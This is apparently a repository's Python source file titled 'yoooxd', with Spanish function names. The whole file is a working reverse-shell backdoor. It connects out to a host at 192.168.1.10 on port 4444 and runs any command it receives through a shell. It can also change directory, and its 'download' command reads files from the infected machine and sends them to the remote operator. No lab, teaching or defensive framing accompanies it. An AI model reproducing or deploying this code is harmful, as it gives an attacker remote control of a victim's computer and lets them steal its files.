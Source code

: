 # yoooxd
import socket
import subprocess
import os

conexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    conexion.connect(("192.168.1.10", 4444))

    def ejecutar_comando(comando):
        try:
            resultado = subprocess.check_output(comando, shell=True, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)
            return resultado
        except Exception as e:
            return str(e).encode()

    def cambiar_directorio(path):
        try:
            os.chdir(path)
            return "[+] Cambiando a {}".format(os.getcwd())
        except Exception as e:
            return str(e).encode()

    def enviar_archivo(path):
        try:
            with open(path, "rb") as file:
                contenido = file.read(1024)
                while contenido:
                    conexion.send(contenido)
                    contenido = file.read(1024)
            return "[+] Envío completo"
        except Exception as e:
            return str(e).encode()

    while True:
        comando = conexion.recv(1024).decode()
        if comando.lower() == "exit":
            conexion.close()
            break
        elif comando.startswith("cd"):
            mensaje = cambiar_directorio(comando[3:])
            conexion.send(mensaje.encode())
        elif comando.startswith("download"):
            file_path = comando.split(" ")[1]
            mensaje = enviar_archivo(file_path)
            conexion.send(mensaje.encode())
        else:
            res = ejecutar_comando(comando)
            conexion.send(res)

except Exception as e:
    print("Error:", str(e))
finally:
    conexion.close()



